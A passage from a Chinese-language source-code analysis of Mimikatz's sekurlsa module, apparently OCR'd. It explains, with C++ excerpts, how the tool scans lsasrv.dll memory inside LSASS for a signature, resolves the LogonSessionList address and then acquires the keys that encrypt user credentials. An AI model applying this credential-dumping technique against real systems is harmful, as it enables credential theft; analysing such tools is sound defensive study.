 ```c++
                        CurrentPtr = (PBYTE) Search->kull_m_memoryRange.kull_m_memoryAdress.address + (((PBYTE) sBuffer.result) - (PBYTE) sBuffer.kull_m_memoryRange.kull_m_memoryAdress.address);
                LocalFree(sBuffer.kull_m_memoryRange.kull_m_memoryAdress.address);
            }
            break;
        case KULL_M_MEMORY_TYPE_PROCESS_DMP:
            // ......
        default:
            break;
        }
        break;
    default:
        break;
    }

    Search->result = status ? CurrentPtr : NULL;

    return status;
}
```

该函数首先划分出 lsasrv.dll 所属的内存空间从而确定要搜索的范围大小 `limite`，然后遍历 `limite` 范围的内存，通过 `RtlEqualMemory()` 函数匹配出与特征码相同的内存块，最终确定特征码的地址。得到的特征码地址被赋值给 `Search->result`，回到 `kuhl_m_sekurlsa_utils_search_generic()` 函数中就是 `sMemory.result`。

接着，回到 `kuhl_m_sekurlsa_utils_search_generic()` 函数中开始定位 `LogonSessionList` 变量。首先从 `currentReference` 中获取第一个偏移量加到特征码地址上，如下所示。

```c++
aLsassMemory.address = (PBYTE) sMemory.result + currentReference->Offsets.off0;
```

这里获得的是 `lea rcx` 指令中保存 `LogonSessionList` 变量偏移量的四个字节序列的地址。然后通过 `kull_m_memory_copy()` 函数获取这四个字节序列的值到 `offset` 中，此时 `offset` 中保存的是 `LogonSessionList` 变量真正的偏移量。将 `sizeof(LONG)` 和 `offset` 加到 `rip` 指向的地址上即可得到 `LogonSessionList` 变量的地址，如下所示。

```c++
aLocalMemory.address = &offset;
if(pLib->isInit = kull_m_memory_copy(&aLocalMemory, &aLsassMemory, sizeof(LONG)))
·*genericPtr = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
```

拿到 `LogonSessionList` 变量的地址后，返回 `kuhl_m_sekurlsa_acquireLSA()` 函数，将继续调用 `lsassLocalHelper->AcquireKeys` 所指的函数。在这里是 `kuhl_m_sekurlsa_nt6_acquireKeys()` 函数，用于获取加密用户凭据的密钥。

```c++
if(kuhl_m_sekurlsa_utils_search(&cLsass, &kuhl_m_sekurlsa_msv_package.Module))
{
    // 继续调用 kuhl_m_sekurlsa_nt6_acquireKeys 函数
    status = lsassLocalHelper->AcquireKeys(&cLsass, &lsassPackages[0]->Module.Informations);
    if(!NT_SUCCESS(status))
        PRINT_ERROR(L"Key import\n");
}
```
